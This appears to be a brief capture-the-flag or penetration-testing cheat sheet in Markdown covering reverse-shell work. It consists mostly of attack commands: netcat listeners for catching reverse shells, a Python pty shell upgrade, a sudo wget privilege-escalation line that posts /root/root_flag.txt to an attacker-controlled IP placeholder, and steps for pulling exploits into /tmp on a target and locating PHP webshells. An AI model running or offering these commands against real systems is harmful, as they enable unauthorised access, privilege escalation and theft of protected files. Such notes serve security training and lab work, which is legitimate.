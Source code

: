 ## Reverse Shell
- Starting listener
```sh
nc -nlvp <port_number>
```
```sh
rlwrap nc -nlvp 4444
```
## Getting the terminal Shell
- **Some time the terminal shell is not given then we have to do this!**
```sh
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
```
## Exploit for `wget`
```sh
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://<your machines ip>:4444
```
## Getting into As a Root User
```sh
su root
```
- **We must need the password here**

### PHP reverse-shell
```ls
/usr/share/webshell/
```
## Avoiding Read and Write Protection
- Copy the protectd file to another file
- Remove the original file


### Downloading From another System
```
wget http://ip/filename -P /tmp/
```
- Sometimes we need to download exploits to the target system
- For avoiding privilege download we can use /tmp/ folder
  
### Ip 2 Name
```sh
sudo nano /etc/hosts
```
```sh
ip    name
```
```sh
ping name
```
